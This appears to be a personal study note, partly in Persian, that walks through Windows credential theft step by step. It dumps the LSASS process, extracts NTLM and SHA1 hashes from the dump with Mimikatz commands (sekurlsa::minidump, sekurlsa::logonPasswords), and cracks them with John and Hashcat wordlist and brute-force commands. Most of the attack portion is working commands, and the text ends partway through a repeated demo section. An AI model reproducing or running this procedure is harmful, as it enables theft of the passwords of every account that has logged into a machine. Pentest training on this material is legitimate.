 ##### Instruction Steps
1. *Dumping* `local Security authority proccess`
	1. `Task Manager => Right-Click local Security authority proccess => Create Dump`
		1. ![[Pasted image 20240629192113.png]]
	2. See Dump `C:\User\Davoodya\AppData\Local\Temp\lsass.DMP`
2. *Download Mimikatz ZIP File*
	1. https://github.com/ParrotSec/mimikatz
		1. ![[Pasted image 20240629192147.png]]
	2. Download ZIP File and Extract it
3. *Extract Hashes from Dump File*
	1. حال فایل `DMP.` را به پوشه Mimikatz منتقل میکنیم و سپس CMD را در پوشه Mimikatz باز میکنیم و کامند های زیر را به ترتیب اجرا میکنیم تا مقادیر هش شده را از فایل Dump شده استخراج کنیم.
```powershell
cd C:\User\Davoodya\Download\mimikatz-master\Win32
C:\User\Davoodya\Download\mimikatz-master\Win32> mimikatz.exe
#-----#-----# Mimikatz Command #-----#-----#
privilege::debug
sekurlsa::minidump C:\Users\Davoodya\AppData\Local\Temp\lsass.DMP

standard::log .\hash-log.txt
sekurlsa::logonPasswords
```
	![[Pasted image 20240629192552.png]]
4. *See Hashes file*
	1. حال مقادیر هش شده تمام اکانت هایی که به این ماشین لاگین کردند را در فایل `hash.txt` در پوشه Mimikatz میتوانیم مشاهده کنیم. Mimikatz مقادیر هش شده اکانت ها را در فرمت های `NTLM, SHA 1` را به همراه `Username, Domain` آنها نمایش میدهد.
		1. ![[Pasted image 20240629192855.png]]
	2. حال فقط مقدار هش اکانتی که میخواهیم کرک شود را در فایل نگه میداریم و بقیه محتوا را پاک میکنیم تا مقدار هش شده آماده کرک شود:
		1. ![[Pasted image 20240630230049.png]]
5. *Cracking Passwords*
	1. حال میتوانیم فایل `hash.txt` را بوسیله ابزار هایی مانند John یا Hashcat کرک کنیم تا پسورد اکانت ها را بدست بیاوریم.
	2. برای انجام اینکار، ابتدا فایل `hash.txt` را به ماشین کالی منتقل میکنیم و سپس از کامند زیر برای کرک پسورد استفاده میکنیم.
		1. ![[Pasted image 20240629193228.png]]
```sh
john -w hash.txt --format="NT" #Use Built-In Dictionary for Attack

#Or Attack with hashcat
hashcat -a 0 -m 1000 hash.txt /usr/share/wordlists/rockyou.txt #Dictionary Attack
hashcat -a 3 -m 1000 hash.txt cbad@4321 #Bruteforce Attack
hashcat hash.txt -m 1000 --show #See Cracked Result
```
	![[Pasted image 20240629193232.png]]
6. Cracking Successfully Done
	1. در تصویر اول مقدار هش اکانت Administrator را مشاهده میکنیم که توسط John کرک شده است:
		1. ![[Pasted image 20240630230406.png]]
	2. 
#### Practical Demo 
0. *پیش نیاز ها*
	1. Download Mimikatz from https://github.com/ParrotSec/mimikatz
	2. Extract Mimikatz to a Folder
1. باز کردن CMD در پوشه Mimikatz با دسترسی Administrator و اجرای آن
```powershell
cd C:\User\Davoodya\Download\mimikatz-master\Win32
C:\User\Davoodya\Download\mimikatz-master\Win32> mimikatz.exe
mimikatz: privilege::debug
```
2. دامپ کردن `local system authority process`
	1. `Task Manager => Right-Click local system authority proccess => Create Dump` Dumping local system authority process